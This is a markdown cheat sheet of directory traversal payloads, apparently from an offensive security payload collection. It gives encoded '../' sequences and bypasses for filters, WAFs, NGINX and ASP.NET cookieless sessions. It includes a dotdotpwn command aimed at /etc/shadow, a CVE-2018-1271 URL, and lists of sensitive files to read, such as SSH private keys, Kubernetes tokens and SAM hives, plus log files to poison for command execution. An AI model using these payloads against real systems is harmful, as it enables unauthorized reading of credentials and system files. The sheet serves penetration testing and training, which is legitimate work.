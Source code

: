 # Directory Traversal

> A directory or path traversal consists in exploiting insufficient security validation / sanitization of user-supplied input file names, so that characters representing "traverse to parent directory" are passed through to the file APIs.

## Summary

* [Tools](#tools)
* [Basic exploitation](#basic-exploitation)
    * [16 bits Unicode encoding](#16-bits-unicode-encoding)
    * [UTF-8 Unicode encoding](#utf-8-unicode-encoding)
    * [Bypass "../" replaced by ""](#bypass--replaced-by-)
    * [Bypass "../" with ";"](#bypass--with-)
    * [Double URL encoding](#double-url-encoding)
    * [UNC Bypass](#unc-bypass)
    * [NGINX/ALB Bypass](#nginxalb-bypass)
    * [ASPNET Cookieless Bypass](#aspnet-cookieless-bypass)
* [Path Traversal](#path-traversal)
    * [Interesting Linux files](#interesting-linux-files)
    * [Interesting Windows files](#interesting-windows-files)
* [References](#references)

## Tools

- [dotdotpwn - https://github.com/wireghoul/dotdotpwn](https://github.com/wireghoul/dotdotpwn)
    ```powershell
    git clone https://github.com/wireghoul/dotdotpwn
    perl dotdotpwn.pl -h 10.10.10.10 -m ftp -t 300 -f /etc/shadow -s -q -b
    ```

## Basic exploitation

We can use the `..` characters to access the parent directory, the following strings are several encoding that can help you bypass a poorly implemented filter.

```powershell
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```

### 16 bits Unicode encoding

```powershell
. = %u002e
/ = %u2215
\ = %u2216
```

### UTF-8 Unicode encoding

```powershell
. = %c0%2e, %e0%40%ae, %c0ae
/ = %c0%af, %e0%80%af, %c0%2f
\ = %c0%5c, %c0%80%5c
```

### Bypass "../" replaced by ""
Sometimes you encounter a WAF which remove the "../" characters from the strings, just duplicate them.

```powershell
..././
...\.\
```

### Bypass "../" with ";"

```powershell
..;/
http://domain.tld/page.jsp?include=..;/..;/sensitive.txt 
```


### Double URL encoding

```powershell
. = %252e
/ = %252f
\ = %255c
```

**e.g:** Spring MVC Directory Traversal Vulnerability (CVE-2018-1271) with `http://localhost:8080/spring-mvc-showcase/resources/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini`


### UNC Bypass

An attacker can inject a Windows UNC share ('\\UNC\share\name') into a software system to potentially redirect access to an unintended location or arbitrary file.

```powershell
\\localhost\c$\windows\win.ini
```


### NGINX/ALB Bypass

NGINX in certain configurations and ALB can block traversal attacks in the route, For example:
```http://nginx-server/../../``` will return a 400 bad request.

To bypass this behaviour just add forward slashes in front of the url:
```http://nginx-server////////../../```


### ASPNET Cookieless Bypass

When cookieless session state is enabled. Instead of relying on a cookie to identify the session, ASP.NET modifies the URL by embedding the Session ID directly into it.

For example, a typical URL might be transformed from: `http://example.com/page.aspx` to something like: `http://example.com/(S(lit3py55t21z5v55vlm25s55))/page.aspx`. The value within `(S(...))` is the Session ID. 

We can use this behavior to bypass filtered URLs.

```powershell
/admin/(S(X))/main.aspx
/admin/Foobar/(S(X))/../(S(X))/main.aspx
/(S(X))/admin/(S(X))/main.aspx
```


### Java Bypass

Bypass Java's URL protocol

```powershell
url:file:///etc/passwd
url:http://127.0.0.1:8080
```


## Path Traversal

### Interesting Linux files

```powershell
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/self/cwd/index.php
/proc/self/cwd/main.py
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa
/run/secrets/kubernetes.io/serviceaccount/token
/run/secrets/kubernetes.io/serviceaccount/namespace
/run/secrets/kubernetes.io/serviceaccount/certificate
/var/run/secrets/kubernetes.io/serviceaccount
/var/lib/mlocate/mlocate.db
/var/lib/mlocate.db
```

### Interesting Windows files

Always existing file in recent Windows machine. 
Ideal to test path traversal but nothing much interesting inside...

```powershell
c:\windows\system32\license.rtf
c:\windows\system32\eula.txt
```

Interesting files to check out (Extracted from https://github.com/soffensive/windowsblindread)

```powershell
c:/boot.ini
c:/inetpub/logs/logfiles
c:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system32/inetsrv/metabase.xml
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system volume information/wpsettings.dat
c:/system32/inetsrv/metabase.xml
c:/unattend.txt
c:/unattend.xml
c:/unattended.txt
c:/unattended.xml
c:/windows/repair/sam
c:/windows/repair/system
```

The following log files are controllable and can be included with an evil payload to achieve a command execution

```powershell
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
```
## Labs

* [File path traversal, simple case](https://portswigger.net/web-security/file-path-traversal/lab-simple)
* [File path traversal, traversal sequences blocked with absolute path bypass](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass)
* [File path traversal, traversal sequences stripped non-recursively](https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively)
* [File path traversal, traversal sequences stripped with superfluous URL-decode](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)
* [File path traversal, validation of start of path](https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path)
* [File path traversal, validation of file extension with null byte bypass](https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass)

## References

* [Path Traversal Cheat Sheet: Windows](https://gracefulsecurity.com/path-traversal-cheat-sheet-windows/)
* [Directory traversal attack - Wikipedia](https://en.wikipedia.org/wiki/Directory_traversal_attack)
* [CWE-40: Path Traversal: '\\UNC\share\name\' (Windows UNC Share) - CWE Mitre - December 27, 2018](https://cwe.mitre.org/data/definitions/40.html)
* [NGINX may be protecting your applications from traversal attacks without you even knowing](https://medium.com/appsflyer/nginx-may-be-protecting-your-applications-from-traversal-attacks-without-you-even-knowing-b08f882fd43d?source=friends_link&sk=e9ddbadd61576f941be97e111e953381)
* [Directory traversal - Portswigger](https://portswigger.net/web-security/file-path-traversal)
* [Cookieless ASPNET - Soroush Dalili](https://twitter.com/irsdl/status/1640390106312835072)